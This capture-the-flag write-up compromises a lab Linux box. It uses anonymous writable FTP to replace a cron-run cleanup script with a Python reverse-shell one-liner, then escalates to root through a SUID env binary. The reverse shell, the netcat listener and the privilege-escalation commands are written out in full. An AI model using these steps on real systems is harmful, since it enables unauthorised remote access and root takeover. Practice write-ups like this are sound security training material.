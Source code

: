 - **Target IP: *10.10.200.137*
- **Difficulty: Medium**

---

## 1. Reconnaissance

### `nmap`:

```bash
nmap -sC -sV 10.10.200.137
```

- **Results:**

```bash
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.55.167
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 2. Enumeration

- Since `ftp` is open lets try connecting with `anonymous` and no pass

```bash
ftp 10.10.200.137
```

- We now have access to the ftp server with no password required

- Inside we find a `scripts` dir and `cd` into it

```bash
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1419 Jul 19 22:48 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

- Lets copy these scripts to our host machine with `get <script_name>`

- Back on our host machine, lets `cat` these scripts to see what they do

```bash
clean.sh

#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

- This appears to be a `cron job` that cleans up the system

- Lets check the `removed_files.log`:

```bash
Running cleanup script:  nothing to delete
...
...
...
```

- So it looks like this `clean.sh` cron job does indeed run on a schedule

## 3. Exploitation

- We can use a reverse shell to replace the `clean.sh` contents and reupload it to the `ftp` server

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.200.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- Make sure to replace the default IP to our host IP, and port `1234` will work fine.

- Setup a `netcat` listener on port `1234` on our host machine

```bash
nc -nlvp 1234
```

- Connect back to the `ftp` server and use `put clean.sh` to replace the original cronjob with our reverse shell

- Wait a bit and we get a reverse shell connection on our host machine

```bash
connect to [10.6.55.167] from (UNKNOWN) [10.10.200.137] 36662
/bin/sh: 0: can't access tty; job control turned off
$ whoami
namelessone
```

- Now we can `cat` our `user.txt` flag

## 4. Privilege Escalation

- Our usual `sudo -l` returns:

```bash
sudo: no tty present and no askpass program specified
```

- When we run into this, the next course of action should be:

```bash
find / -perm -4000 -type f 2>/dev/null
```

- **Results:**

```bash
/usr/bin/env
```

- This is our key

### `Gtfobins`

- We find a privilege escalation using `env` on https://gtfobins.github.io/gtfobins/env/ 

```bash
./env /bin/sh -p
```

- Lets try running this:

```bash
/usr/bin/env /bin/sh -p
```

- This successfully escalates us to `root`

```bash
/usr/bin/env /bin/sh -p
# whoami
whoami
root
```

- Lastly, we can `cat` our root flag by

```bash
cat /root/root.txt
```

---

[[CTF Notes]]

